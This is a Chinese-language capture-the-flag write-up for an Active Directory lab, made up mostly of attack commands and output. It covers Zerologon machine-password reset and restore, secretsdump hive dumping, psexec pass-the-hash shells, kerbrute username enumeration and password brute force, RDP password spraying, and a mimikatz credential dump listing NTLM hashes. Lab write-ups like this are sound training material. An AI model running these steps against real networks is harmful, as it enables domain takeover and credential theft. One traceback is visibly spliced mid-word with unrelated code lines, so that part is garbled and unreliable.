  backup_parser.add_argument('-o', dest='outputPath', action='store', metavar='\\192.168.0.2\share', required=True,
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saved HKLM\SAM to c:/windows\SAM.save
[*] Saved HKLM\SYSTEM to c:/windows\SYSTEM.save
[*] Saved HKLM\SECURITY to c:/windows\SECURITY.save
```

```
❯ secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save local
/opt/homebrew/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.11.0', 'secretsdump.py')
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x38feb5d46d5a3ec34da1b8a5a3655e2e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a167976f7bd8d93ee232fa7a87a4079e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:9230cc8638f91d9c21d0d033cf2013707ddc766e4cf2b802ab7368ea5b7a92f0ef56b3e9a78a1c796a890f72f1d52ee145c8c79ce17438969338a0a50a943358d225794a5eb1b427b0d73ac0375e862bc9869bf861778ca8ca21fea5e632e515e5060e0a41c09fd64fddaa84c529838507efb68afaf4596edcca91b7519e1ccafd5947ab89a36deafb3ca752485d9241062192e73da739200a11c944295a55129ecd86254d4fa28fd313939f0ac9521526e4862c4dfa34a6d4031359c5fc00400ec12376ebd915020a324d59f816970a306480425d11d7041dc3ada9d04e7a416a8f9ddbf5341641424a784b3cc3a0a8
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2556fe9aba07eed3912e971ab7ad9737
[*] DPAPI_SYSTEM
dpapi_machinekey:0x578c89055319699dc84d2483ae8fd54125db12d0
dpapi_userkey:0x112cd1a35c3540fd8b93648b59a0c702eb6c776f
[*] NL$KM
 0000   09 F0 A7 1F D6 43 B3 1E  4C 44 ED 15 37 9A 72 C0   .....C..LD..7.r.
 0010   4B 70 2A 28 3D 5C 98 88  AA 8B AA 2B 70 97 DF 71   Kp*(=\.....+p..q
 0020   FD 74 7D A8 92 B4 D8 13  55 41 2A 87 1A DE 45 CC   .t}.....UA*...E.
 0030   1D F2 36 A0 9B 90 1E 84  30 B8 51 CF FF 81 08 FC   ..6.....0.Q.....
NL$KM:09f0a71fd643b31e4c44ed15379a72c04b702a283d5c9888aa8baa2b7097df71fd747da892b4d81355412a871ade45cc1df236a09b901e8430b851cfff8108fc
[*] Cleaning up...
```

### restore-password

```
❯ python3 restorepassword.py cyberstrikelab.com/dc@cyberstrikelab.com -target-ip 10.0.0.60 -hexpass 9230cc8638f91d9c21d0d033cf2013707ddc766e4cf2b802ab7368ea5b7a92f0ef56b3e9a78a1c796a890f72f1d52ee145c8c79ce17438969338a0a50a943358d225794a5eb1b427b0d73ac0375e862bc9869bf861778ca8ca21fea5e632e515e5060e0a41c09fd64fddaa84c529838507efb68afaf4596edcca91b7519e1ccafd5947ab89a36deafb3ca752485d9241062192e73da739200a11c944295a55129ecd86254d4fa28fd313939f0ac9521526e4862c4dfa34a6d4031359c5fc00400ec12376ebd915020a324d59f816970a306480425d11d7041dc3ada9d04e7a416a8f9ddbf5341641424a784b3cc3a0a8
/Users/test/Desktop/tool/zerologon/CVE-2020-1472/zerologon/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] StringBinding ncacn_ip_tcp:10.0.0.60[49668]
Traceback (most recent call last):
  File "/Users/test/Desktop/tool/zerologon/CVE-2020-1472/restorepassword.py", line 150, in <module>
    action.dump(remoteName, options.target_ip)
    ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/Users/test/Desktop/tool/zerologon/CVE-2020-1472/restorepassword.py", line 66, in dump
    resp = nrpc.hNetrServerAuthenticate3(dce, '\\' + remoteName + '\x00', self.__username + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,remoteName + '\x00',self.ppp, 0x212fffff )
  File "/Users/test/Desktop/tool/zerologon/CVE-2020-1472/zerologon/lib/python3.13/site-packages/impacket/dcerpc/v5/nrpc.py", line 2728, in hNetrServerAuthenticate3
    return dce.request(request)
           ~~~~~~~~~~~^^^^^^^^^
  File "/Users/test/Desktop/tool/zerologon/CVE-2020-1472/zerologon/lib/python3.13/site-pa
  7 from impacket.dcerpc.v5.ndr import NDRCALL
  8 import impacket
  9
 12 from subprocess import check_call
 13 from Cryptodome.Cipher import DES, AES, ARC4
 22     structure = (
 23         ('PrimaryName',nrpc.PLOGONSRV_HANDLE),
 28         ('UasNewPassword',nrpc.ENCRYPTED_NT_OWF_PASSWORD),
 31 class NetrServerPasswordSetResponse(nrpc.NDRCALL):
 32     structure = (
 33         ('ReturnAuthenticator',nrpc.NETLOGON_AUTHENTICATOR),
 36
 37 def fail(msg):
 38   print(msg, file=sys.stderr)
 40   sys.exit(2)
 41
 42 def try_zero_authenticate(dc_handle, dc_ip, target_computer, originalpw):
 45   rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
 46   rpc_con.connect()
 47   rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
 48
 53   # Send challenge and authentication request.
 57     server_auth = nrpc.hNetrServerAuthenticate3(
 61
 62
 69     print("session key", sessionKey)
 78       #print("client cred", clientCred)
 84       #authenticatorCred = authenticatorCrypt.encrypt(clientStoredCred);
 85       #print("authenticator cred", authenticatorCred)
 89       #request['ServerName'] = '\x00'*20
 94       #request['QueryLevel'] = 1
103       request['AccountName'] = target_computer + '$\x00'
113
114       #request['PrimaryName'] = NULL
122     return rpc_con
ckages/impacket/dcerpc/v5/rpcrt.py", line 882, in request
    raise exception
impacket.dcerpc.v5.nrpc.DCERPCSessionError: NRPC SessionError: code: 0xc0000122 - STATUS_INVALID_COMPUTER_NAME - Indicates a name that was specified as a remote computer name is syntactically invalid.
```

第一个工具不行,换了参考链接里面的reinstall\_original\_pw.py

```
❯ python3 reinstall_original_pw.py dc 10.0.0.60 2556fe9aba07eed3912e971ab7ad9737
Performing authentication attempts...
========================================================================================================================
NetrServerAuthenticate3Response
ServerCredential:
    Data:                            b'\xa4\x99\xd0\x12\xd85\xa4\x1d'
NegotiateFlags:                  556793855
AccountRid:                      1000
ErrorCode:                       0

server challenge b'\xa4~\x86\xf3\xac\xef\x1b\x9a'
session key b'\x00\xc0\x95\x1d\x13*\x85\xe7\x93\xfe\xd9y\x12\xe4\xea%'
NetrServerPasswordSetResponse
ReturnAuthenticator:
    Credential:
        Data:                            b'\x01\x85\xa3\xa0\x8d\x7f\xcc\x1c'
    Timestamp:                       0
ErrorCode:                       0

Success! DC machine account should be restored to it's original value. You might want to secretsdump again to check.
```

## flag4

```
❯ psexec.py cyberstrikelab.com/administrator@10.0.0.61 -hashes :7b50525da0ea9349b4c698bbe4868544
/Users/test/Desktop/tool/zerologon/CVE-2020-1472/zerologon/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.0.0.61.....
[*] Found writable share ADMIN$
[*] Uploading file PinJaHft.exe
[*] Opening SVCManager on 10.0.0.61.....
[*] Creating service FhuU on 10.0.0.61.....
[*] Starting service FhuU.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.14393]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) 2016 Microsoft Corporation����������Ȩ����

C:\Windows\system32>

C:\Windows\system32> type c:\flag.txt
   .::::
 .:    .::
.::           .::       .::    .: .:::
.::         .:   .::  .::  .::  .::
.::   .::::.::::: .::.::   .::  .::
 .::    .: .:        .::   .::  .::
  .:::::     .::::     .:: .:::.:::

go-flag{636938C8-FE3C-4324-829B-6506C560359C}

```

## flag5

```
❯ psexec.py cyberstrikelab.com/administrator@10.0.0.60 -hashes :7b50525da0ea9349b4c698bbe4868544
/Users/test/Desktop/tool/zerologon/CVE-2020-1472/zerologon/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.0.0.60.....
[*] Found writable share ADMIN$
[*] Uploading file wffrXnJO.exe
[*] Opening SVCManager on 10.0.0.60.....
[*] Creating service wSPF on 10.0.0.60.....
[*] Starting service wSPF.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.14393]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) 2016 Microsoft Corporation����������Ȩ����

C:\Windows\system32> type c:/flag.txt
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�����﷨����ȷ��

C:\Windows\system32> cd c:/

c:\> dir
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
 ������ C �еľ�û�б�ǩ��

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
 ��������� 22FB-7E6E

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
 c:\ ��Ŀ¼

2025/02/16  19:47               338 flag.txt
2025/02/20  16:54    <DIR>          PerfLogs
2018/02/03  03:38    <DIR>          Program Files
2016/07/16  21:23    <DIR>          Program Files (x86)
2025/02/15  11:04    <DIR>          Users
2025/05/27  19:05    <DIR>          Windows
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
               1 ���ļ�            338 �ֽ�

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
               5 ��Ŀ¼ 27,986,108,416 �����ֽ�

c:\> type flag.txt
   .::::
 .:    .::
.::           .::       .::    .: .:::
.::         .:   .::  .::  .::  .::
.::   .::::.::::: .::.::   .::  .::
 .::    .: .:        .::   .::  .::
  .:::::     .::::     .:: .:::.:::

go-flag{C5158FC2-A1AA-4C62-93AE-ECEA0BE7F763}
```

# 预期解

## usereumn

我们现在发现了域环境但是没有域用户 先枚举吧

```
❯ kerbrute userenum -d cyberstrikelab.com --dc dc.cyberstrikelab.com   user -v

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 05/28/25 - Ronnie Flathers @ropnop

2025/05/28 10:54:01 >  Using KDC(s):
2025/05/28 10:54:01 >  	dc.cyberstrikelab.com:88

2025/05/28 10:54:05 >  [+] VALID USERNAME:	 tom@cyberstrikelab.com
2025/05/28 10:54:05 >  [+] VALID USERNAME:	 cslab@cyberstrikelab.com
2025/05/28 10:54:05 >  Done! Tested 2 usernames (2 valid) in 3.492 seconds
```

cslab 是一个用户,tom 也是

```
❯ kerbrute bruteuser -d cyberstrikelab.com --dc dc.cyberstrikelab.com   pass tom -v

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 05/28/25 - Ronnie Flathers @ropnop

2025/05/28 11:00:43 >  Using KDC(s):
2025/05/28 11:00:43 >  	dc.cyberstrikelab.com:88

2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:U8@cslab - Invalid password
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:tm@cslab - Invalid password
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:dc@cslab - Invalid password
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:qwe123!@# - Invalid password
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:cyberweb@cslab - Invalid password
2025/05/28 11:00:50 >  [+] VALID LOGIN:	 tom@cyberstrikelab.com:qwe!@#123
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:cslab - Invalid password
2025/05/28 11:00:50 >  [!] tom@cyberstrikelab.com:24d@cs1 - Invalid password
2025/05/28 11:00:50 >  Done! Tested 8 logins (1 successes) in 7.157 seconds
```

tom : qwe!@#123

## bloodhound

```
❯ bloodhound-python -u tom -p 'qwe!@#123'  -dc dc.cyberstrikelab.com -d cyberstrikelab.com -ns 10.0.0.60   --zip -c All   --dns-tcp
/opt/homebrew/lib/python3.12/site-packages/bloodhound-1.7.2-py3.12.egg/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
/opt/homebrew/lib/python3.12/site-packages/bloodhound-1.7.2-py3.12.egg/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
INFO: Found AD domain: cyberstrikelab.com
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.cyberstrikelab.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.cyberstrikelab.com
INFO: Found 7 users
INFO: Found 53 groups
NFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: cyberweb.cyberstrikelab.com
INFO: Querying computer: DC.cyberstrikelab.com
INFO: Done in 00M 16S
INFO: Compressing output into 20250528110436_bloodhound.zip
```

没什么可以利用的

## getUsersSPN

```
❯ GetUserSPNs.py -request cyberstrikelab.com/tom:'qwe!@#123'  -dc-host dc.cyberstrikelab.com -outputfile tgs
/opt/homebrew/bin/GetUserSPNs.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.11.0', 'GetUserSPNs.py')
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name   MemberOf  PasswordLastSet             LastLogon  Delegation
--------------------  -----  --------  --------------------------  ---------  -------------
priv/test             cslab            2025-02-15 22:09:12.390971  <never>    unconstrained

[-] [Errno 2] No such file or directory: ''
```

没有tgs爆出来

## finddelegation

```
❯ findDelegation.py cyberstrikelab.com/tom:'qwe!@#123'  -dc-host dc.cyberstrikelab.com
/opt/homebrew/bin/findDelegation.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.11.0', 'findDelegation.py')
Impacket v0.11.0 - Copyright 2023 Fortra

AccountName  AccountType  DelegationType  DelegationRightsTo
-----------  -----------  --------------  ------------------
CYBERWEB$    Computer     Unconstrained   N/A
cslab        Person       Unconstrained   N/A

```

发现CYBERWEB$ 可以进行非约束委派攻击，我们想办法拿到cyberweb$ 的权限

## cyberweb-password

```
PS C:\Users\Administrator\Desktop> .\fscan2.exe -h 10.0.0.61 -p 3389 -pwda qwe!@#123

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 已添加额外密码: qwe!@#123
[*] 扫描类型: all, 目标端口: 3389
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 1 个有效端口
[+] 存活端口数量: 1
[*] 开始漏洞扫描...
[+] 端口开放 10.0.0.61:3389
[*] 已完成 0/1 [-] (34/213) RDP 10.0.0.61:3389 administrator 123qwe remote error: tls: access denied
[+] RDP 10.0.0.61:3389:administrator qwe!@#123
```

跟tom的密码是一样的,

在10.0.0.61的回收站里面有一个3.bat的文件

```
C:\PerfLogs>type 3.bat
@echo off
setlocal

set DomainUser=cyberstrikelab.com\Tom
set Password=qwe!@#123

set PSScript=%temp%\RunAsDomainUser.ps1

echo $Username = "%DomainUser%" > "%PSScript%"
echo $Password = ConvertTo-SecureString "%Password%" -AsPlainText -Force >> "%PSScript%"
echo $Credential = New-Object System.Management.Automation.PSCredential ($Username, $Password) >> "%PSScript%"
echo Start-Process cmd -Credential $Credential -WorkingDirectory "C:" >> "%PSScript%"

powershell -ExecutionPolicy Bypass -File "%PSScript%"

del "%PSScript%"

endlocal

```

里面也描述了tom的密码

## 10.0.0.61-cyberweb.cyberstrikelab.com

### mimikazt

```
PS C:\Users\Administrator\Desktop\mimikatz_trunk\x64> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 1605779 (00000000:00188093)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/28 11:19:42
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 6d1ad68cae119f25682ba8b02e801817
         * SHA1     : e5cfd7db4a1f8d530af1cd4011d67d66ca5c1273
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : CYBERWEB$
         * Domain   : cyberstrikelab.com
         * Password : 06 f5 ed 59 db bf 08 e9 f7 64 a7 d1 76 e9 44 ba de 38 b3 14 d2 95 f5 da 1f bc 24 60 0d 2b f4 c0 53 49 f2 8e 0c 34 cd 2a 24 4f 4a d8 a7 1f dd 19 1d a5 bf 02 94 d4 fb 3b 9d b6 23 28 75 e9 87 8b f9 7d 20 da 7f a7 d0 d3 23 81 95 15 e4 35 08 b2 b7 43 7b 40 8c 4a e4 37 33 2e 8d 38 84 b0 3e 05 2a bb 02 0a 2c 32 79 4e a8 10 6f db 22 b9 4e 2e b9 ca b8 11 ea 0b d7 ed f0 0a 1b 10 9a 99 25 d8 7c eb ed 4e fb 19 44 97 09 06 80 5a 23 03 9f 0b 04 fb b9 8c 2f b4 ad 69 84 bd b1 57 78 42 ad 5f 37 f5 bf ad c1 44 35 c6 67 78 7c 0a e9 0b 91 71 55 35 70 2d e8 38 f8 c3 bb b0 94 3a d5 31 9e ea d4 0d 0d 0c de fc b2 f2 b7 d4 a2 d9 1e f1 9b 9a 5e 74 36 32 61 1e f5 f1 5d 42 48 ae 21 25 3e 19 18 00 df c3 31 1e a2 61 a0 3e a5 46 ae f3 33 47
        ssp :
        credman :

Authentication Id : 0 ; 1605373 (00000000:00187efd)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/28 11:19:42
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 6d1ad68cae119f25682ba8b02e801817
         * SHA1     : e5cfd7db4a1f8d530af1cd4011d67d66ca5c1273
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : CYBERWEB$
         * Domain   : cyberstrikelab.com
         * Password : 06 f5 ed 59 db bf 08 e9 f7 64 a7 d1 76 e9 44 ba de 38 b3 14 d2 95 f5 da 1f bc 24 60 0d 2b f4 c0 53 49 f2 8e 0c 34 cd 2a 24 4f 4a d8 a7 1f dd 19 1d a5 bf 02 94 d4 fb 3b 9d b6 23 28 75 e9 87 8b f9 7d 20 da 7f a7 d0 d3 23 81 95 15 e4 35 08 b2 b7 43 7b 40 8c 4a e4 37 33 2e 8d 38 84 b0 3e 05 2a bb 02 0a 2c 32 79 4e a8 10 6f db 22 b9 4e 2e b9 ca b8 11 ea 0b d7 ed f0 0a 1b 10 9a 99 25 d8 7c eb ed 4e fb 19 44 97 09 06 80 5a 23 03 9f 0b 04 fb b9 8c 2f b4 ad 69 84 bd b1 57 78 42 ad 5f 37 f5 bf ad c1 44 35 c6 67 78 7c 0a e9 0b 91 71 55 35 70 2d e8 38 f8 c3 bb b0 94 3a d5 31 9e ea d4 0d 0d 0c de fc b2 f2 b7 d4 a2 d9 1e f1 9b 9a 5e 74 36 32 61 1e f5 f1 5d 42 48 ae 21 25 3e 19 18 00 df c3 31 1e a2 61 a0 3e a5 46 ae f3 33 47
        ssp :
        credman :

Authentication Id : 0 ; 56746 (00000000:0000ddaa)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:13
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 9e83edba599dadac10fcf115f740b3d5
         * SHA1     : 4f0c0ed7f396bd8036bcf8aa8cb25ce18a7d950b
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : CYBERWEB$
         * Domain   : cyberstrikelab.com
         * Password : ad b9 e1 7c 68 da 1f 1f 00 d1 42 80 24 b0 d6 a1 39 90 85 5b 77 3f f5 76 57 1f 97 b8 f7 9b d0 c6 64 a4 47 90 67 11 c1 75 c0 f0 59 0e 47 95 5a 82 80 b4 7e 58 48 38 f7 ce cf e9 c6 4f db f0 9d e3 ef 30 86 fb 01 69 b0 ad 9b e8 57 05 c0 da b5 84 7d 20 28 aa f5 e6 b0 35 33 e0 d9 1e 08 03 2a 27 cc 52 b2 c9 c3 71 1b 7c c7 3d 1e 9f c1 c7 c0 e7 73 87 91 e9 e2 5e 8a 11 21 03 48 d7 ac 05 bf cd cd 4e 66 4e 55 20 5f 41 5a 28 6a 24 6c 6b de b6 ff 17 66 b2 30 f0 79 b8 3b 79 87 15 fd 43 76 35 ac 12 3e 2b 12 49 5a 4d bc e7 5b 3c 2a ca b1 40 1e 24 6c 90 8e 3c ae 24 d4 c8 88 b8 ac 87 d6 14 53 25 db 7e 67 d4 19 ec 9e b2 37 c7 b3 b4 73 fe 16 3b b8 1d 52 7a c3 84 1c 51 2d f2 e0 11 2b 07 be cc 45 11 2a 9d f3 43 ec 1a 16 80 05 87 c0 0f
        ssp :
        credman :

Authentication Id : 0 ; 56726 (00000000:0000dd96)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:13
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 6d1ad68cae119f25682ba8b02e801817
         * SHA1     : e5cfd7db4a1f8d530af1cd4011d67d66ca5c1273
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : CYBERWEB$
         * Domain   : cyberstrikelab.com
         * Password : 06 f5 ed 59 db bf 08 e9 f7 64 a7 d1 76 e9 44 ba de 38 b3 14 d2 95 f5 da 1f bc 24 60 0d 2b f4 c0 53 49 f2 8e 0c 34 cd 2a 24 4f 4a d8 a7 1f dd 19 1d a5 bf 02 94 d4 fb 3b 9d b6 23 28 75 e9 87 8b f9 7d 20 da 7f a7 d0 d3 23 81 95 15 e4 35 08 b2 b7 43 7b 40 8c 4a e4 37 33 2e 8d 38 84 b0 3e 05 2a bb 02 0a 2c 32 79 4e a8 10 6f db 22 b9 4e 2e b9 ca b8 11 ea 0b d7 ed f0 0a 1b 10 9a 99 25 d8 7c eb ed 4e fb 19 44 97 09 06 80 5a 23 03 9f 0b 04 fb b9 8c 2f b4 ad 69 84 bd b1 57 78 42 ad 5f 37 f5 bf ad c1 44 35 c6 67 78 7c 0a e9 0b 91 71 55 35 70 2d e8 38 f8 c3 bb b0 94 3a d5 31 9e ea d4 0d 0d 0c de fc b2 f2 b7 d4 a2 d9 1e f1 9b 9a 5e 74 36 32 61 1e f5 f1 5d 42 48 ae 21 25 3e 19 18 00 df c3 31 1e a2 61 a0 3e a5 46 ae f3 33 47
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CYBERWEB$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:11
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 6d1ad68cae119f25682ba8b02e801817
         * SHA1     : e5cfd7db4a1f8d530af1cd4011d67d66ca5c1273
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : cyberweb$
         * Domain   : CYBERSTRIKELAB.COM
         * Password : 06 f5 ed 59 db bf 08 e9 f7 64 a7 d1 76 e9 44 ba de 38 b3 14 d2 95 f5 da 1f bc 24 60 0d 2b f4 c0 53 49 f2 8e 0c 34 cd 2a 24 4f 4a d8 a7 1f dd 19 1d a5 bf 02 94 d4 fb 3b 9d b6 23 28 75 e9 87 8b f9 7d 20 da 7f a7 d0 d3 23 81 95 15 e4 35 08 b2 b7 43 7b 40 8c 4a e4 37 33 2e 8d 38 84 b0 3e 05 2a bb 02 0a 2c 32 79 4e a8 10 6f db 22 b9 4e 2e b9 ca b8 11 ea 0b d7 ed f0 0a 1b 10 9a 99 25 d8 7c eb ed 4e fb 19 44 97 09 06 80 5a 23 03 9f 0b 04 fb b9 8c 2f b4 ad 69 84 bd b1 57 78 42 ad 5f 37 f5 bf ad c1 44 35 c6 67 78 7c 0a e9 0b 91 71 55 35 70 2d e8 38 f8 c3 bb b0 94 3a d5 31 9e ea d4 0d 0d 0c de fc b2 f2 b7 d4 a2 d9 1e f1 9b 9a 5e 74 36 32 61 1e f5 f1 5d 42 48 ae 21 25 3e 19 18 00 df c3 31 1e a2 61 a0 3e a5 46 ae f3 33 47
        ssp :
        credman :

Authentication Id : 0 ; 28887 (00000000:000070d7)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:00
SID               :
        msv :
         [00000003] Primary
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * NTLM     : 6d1ad68cae119f25682ba8b02e801817
         * SHA1     : e5cfd7db4a1f8d530af1cd4011d67d66ca5c1273
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 140785 (00000000:000225f1)
Session           : Interactive from 1
User Name         : Administrator
Domain            : CYBERWEB
Logon Server      : CYBERWEB
Logon Time        : 2025/5/28 2:41:24
SID               : S-1-5-21-1225312206-2968703879-1751614275-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CYBERWEB
         * NTLM     : 2de5cd0f15d1c070851d1044e1d95c90
         * SHA1     : 134fb9c7133a65718b2ab44498d788b8afc1b0f4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CYBERWEB
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CYBERWEB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:13
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CYBERWEB$
